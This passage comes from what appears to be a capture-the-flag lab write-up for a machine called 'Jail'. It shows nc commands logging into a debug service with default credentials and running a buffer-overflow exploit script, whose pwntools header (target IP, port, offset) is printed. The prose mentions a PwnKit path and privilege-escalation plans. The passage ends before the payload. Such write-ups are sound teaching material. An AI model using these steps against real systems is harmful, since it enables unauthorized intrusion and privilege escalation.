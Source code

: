 ```bash
./jail
nc 10.10.10.34 7411
  DEBUG
  USER admin
  PASS admin

./bin/python3 ./jail_bof.py

nvim jail_bof.py
./jail
./bin/python3 ./jail_bof.py
  whoami
  pwd
  ls
```

<br />
<img src="{{ site.img_path }}/jail_writeup/Jail_39.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/jail_writeup/Jail_40.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/jail_writeup/Jail_41.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/jail_writeup/Jail_42.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

Now that I have been able to crash the service locally, I'm going to update the exploit to attack the program but from the victim machine. I always verify that the base address of the stack is correct and perform the exploit, I succeed in the engagement of the machine and I can now start the system **Enumeration** phase. The first thing I find is that the `pkexec` tool has the **SUID** permission enabled, which could make the system vulnerable to **[PwnKit](https://github.com/ly4k/PwnKit){:target="_blank"}**, but as this is not the intended path I will look for the real attack vector to perform a **user pivoting** or **privilege escalation**. I find that the compromised account has the privilege to execute a script impersonating the user **frank** (the same script I had found at the beginning of the lab), but I cannot modify it.

```bash
nc 10.10.10.34 7411
  DEBUG
  USER admin
  PASS admin

nvim jail_bof.py
```

> **jail_bof.py**:

```python
#!/usr/bin/python3

from pwn import *

def def_handler(sig, frame):
    print("\n\n[!] Exiting...\n")
    sys.exit(1)

# Ctrl+c
signal.signal(signal.SIGINT, def_handler)

# Global Variables
ip_target = '10.10.10.34'
port = 7411
offset = 28
```
